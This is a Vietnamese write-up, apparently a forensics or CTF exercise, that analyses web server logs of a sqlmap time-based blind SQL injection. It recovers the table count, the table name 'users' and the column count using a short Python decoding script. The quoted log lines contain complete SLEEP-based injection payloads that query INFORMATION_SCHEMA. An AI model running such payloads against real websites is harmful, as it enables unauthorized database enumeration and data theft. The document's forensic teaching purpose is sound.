 

Phân còn lại của query là lấy từng ký tự của kết quả trên map sang bảng ascii sau đó so sánh với một giá trị để nhận biết kết quả này thì sqlmap sử dụng sleep trong query, nhưng mấu chốt là sqlmap lại confirm bằng một biểu thức so sánh `!=` nên nhìn vào 7 dòng log ở trên thì thấy có một dòng sử dụng so sánh `!=49`
```sql
42.112.114.236 - - [10/Aug/2020:08:30:34  0000] "GET /webapp/search.php?id=123 AND (SELECT 6037 FROM (SELECT(SLEEP(5-(IF(ORD(MID((SELECT IFNULL(CAST(COUNT(table_name) AS NCHAR),0x20) FROM INFORMATION_SCHEMA.TABLES WHERE table_schema=0x776562617070),1,1))!=49,0,5)))))BEVL) HTTP/1.1" 200 417 "-" "sqlmap/1.4.7#stable (http://sqlmap.org)"
```
Như vậy là request này để xác nhận trong database webapp chỉ có một bảng.


Phân tiếp theo là phần lấy ra tên của bảng đó:
![](https://images.viblo.asia/53a7b030-6a38-4813-b8d0-f1417c5c79b8.png)

Tương tự như phần lấy ra số bảng chỉ khác trong query đã bỏ COUNT đi nên việc phân tích giống hệt như trên, vì có một bảng nên mình đã code một đoạn script đơn giản để lấy ra tên bảng như sau:

```python
import re

lines = open('tables.log').read().splitlines()

table_name = ""
for line in lines:
    result = re.findall(r'%21%3D[0-9]{2,3}', line)
    if result:
        table_name += chr(int(result[0][6::]))
    
print(table_name)
```

![](https://images.viblo.asia/2d5b2eb6-d5b2-4faa-a482-89c558331819.png)

Sau khi chạy đoạn script lấy được tên bảng là users, phần tiếp theo chắc attacker sẽ lấy tiếp dữ liệu trong bảng này, nhưng đến đây việc phân tích trở nên đơn giản hơn rất nhiều rồi. Vì những câu query cho đến thời điểm hiện tại khá là giống nhau.


Format lần này giống hệt như những lần trước, đầu tiên sẽ lấy ra số cột trong bảng mà attacker đã chọn

```
103.37.29.230 - - [10/Aug/2020:08:31:46  0000] "GET /webapp/search.php?id=123 AND (SELECT 5051 FROM (SELECT(SLEEP(5-(IF(ORD(MID((SELECT IFNULL(CAST(COUNT(column_name) AS NCHAR),0x20) FROM INFORMATION_SCHEMA.COLUMNS WHERE table_name=0x7573657273 AND table_schema=0x776562617070),1,1))>51,0,5)))))JGbP) HTTP/1.1" 200 431 "-" "sqlmap/1.4.7#stable (http://sqlmap.org)"
103.37.29.230 - - [10/Aug/2020:08:31:47  0000] "GET /webapp/search.php?id=123 AND (SELECT 5051 FROM (SELECT(SLEEP(5-(IF(ORD(MID((SELECT IFNULL(CAST(COUNT(column_name) AS NCHAR),0x20) FROM INFORMATION_SCHEMA.COLUMNS WHERE table_name=0x7573657273 AND table_schema=0x776562617070),1,1))>48,0,5)))))JGbP) HTTP/1.1" 200 431 "-" "sqlmap/1.4.7#stable (http://sqlmap.org)"
103.37.29.230 - - [10/Aug/2020:08:32:02  0000] "GET /webapp/search.php?id=123 AND (SELECT 5051 FROM (SELECT(SLEEP(5-(IF(ORD(MID((SELECT IFNULL(CAST(COUNT(column_name) AS NCHAR),0x20) FROM INFORMATION_SCHEMA.COLUMNS WHERE table_name=0x7573657273 AND table_schema=0x776562617070),1,1))>49,0,5)))))JGbP) HTTP/1.1" 200 432 "-" "sqlmap/1.4.7#stable (http://sqlmap.org)"
103.37.29.230 - - [10/Aug/2020:08:32:07  0000] "GET /webapp/search.php?id=123 AND (SELECT 5051 FROM (SELECT(SLEEP(5-(IF(ORD(MID((SELECT IFNULL(CAST(COUNT(column_name) AS NCHAR),0x20) FROM INFORMATION_SCHEMA.COLUMNS WHERE table_name=0x7573657273 AND table_schema=0x776562617070),1,1))>50,0,5)))))JGbP) HTTP/1.1" 200 431 "-" "sqlmap/1.4.7#stable (http://sqlmap.org)"
103.37.29.230 - - [10/Aug/2020:08:32:13  0000] "GET /webapp/search.php?id=123 AND (SELECT 5051 FROM (SELECT(SLEEP(2-(IF(ORD(MID((SELECT IFNULL(CAST(COUNT(column_name) AS NCHAR),0x20) FROM INFORMATION_SCHEMA.COLUMNS WHERE table_name=0x7573657273 AND table_schema=0x776562617070),1,1))!=51,0,2)))))JGbP) HTTP/1.1" 200 432 "-" "sqlmap/1.4.7#stable (http://sqlmap.org)"
```